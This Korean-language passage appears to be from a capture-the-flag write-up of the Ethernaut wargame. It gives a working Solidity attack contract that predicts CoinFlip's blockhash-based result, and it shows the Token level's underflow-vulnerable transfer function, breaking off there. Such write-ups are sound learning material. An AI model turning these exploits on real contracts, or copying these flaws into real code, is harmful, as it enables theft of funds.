 -   **예측 가능한 난수**: 이 컨트랙트는 동전의 앞/뒤를 결정하기 위해 `block.blockhash(block.number - 1)` 값을 사용합니다. `blockhash`는 이전 블록의 해시값으로, 블록체인 상에 공개되어 있는 데이터입니다. 즉, **결과값이 나오기 전에 누구나 미리 예측할 수 있는 값**이라는 의미입니다.
-   블록체인은 결정론적(deterministic) 시스템이기 때문에, 컨트랙트 내부에서 `block.timestamp`, `block.number`, `block.blockhash` 등과 같은 변수만을 사용하여 안전한 난수를 생성하는 것은 불가능합니다.

### **공격 시나리오**

1.  **공격용 스마트 컨트랙트 작성**: `CoinFlip` 컨트랙트와 동일한 로직으로 동전의 면을 계산하는 함수를 가진 별도의 공격 컨트랙트를 작성합니다.

    ```solidity
    contract AttackCoinFlip {
        function predict(address _coinFlipAddress) public returns (bool) {
            uint256 blockValue = uint256(block.blockhash(block.number - 1));
            uint256 coinFlip = blockValue / CoinFlip(_coinFlipAddress).FACTOR();
            bool side = coinFlip == 1 ? true : false;
            return side;
        }

        function attack(address _coinFlipAddress) public {
            bool prediction = predict(_coinFlipAddress);
            CoinFlip(_coinFlipAddress).flip(prediction);
        }
    }
    ```

2.  **공격 컨트랙트 배포**: 작성한 `AttackCoinFlip` 컨트랙트를 Sepolia 테스트넷에 배포합니다.
3.  **공격 실행**: 배포된 공격 컨트랙트의 `attack()` 함수를 10번 호출합니다. `attack()` 함수는 다음 블록이 채굴되기 전에 `CoinFlip` 컨트랙트와 동일한 방법으로 결과를 예측하고, 그 예측값을 `flip()` 함수에 전달합니다. 이 모든 과정이 하나의 트랜잭션 안에서 일어나므로, `block.number`는 동일하게 유지되어 예측은 100% 성공하게 됩니다.

### **방어 방법**

-   블록체인 상에서 안전한 난수가 필요할 때는 **체인링크(Chainlink) VRF(Verifiable Random Function)** 와 같은 외부 오라클(Oracle) 서비스를 사용해야 합니다. 오라클은 블록체인 외부에서 생성된 검증 가능한 난수를 안전하게 컨트랙트로 전달해 줍니다.

---

## Level 5. Token

### **목표**

아주 적은 양의 토큰으로 시작하여, 컨트랙트가 보유한 모든 토큰을 탈취합니다.

### **취약점 분석**

```solidity
contract Token {
  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) {
    totalSupply = _initialSupply;
    balances[msg.sender] = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }
  // ...
}
```
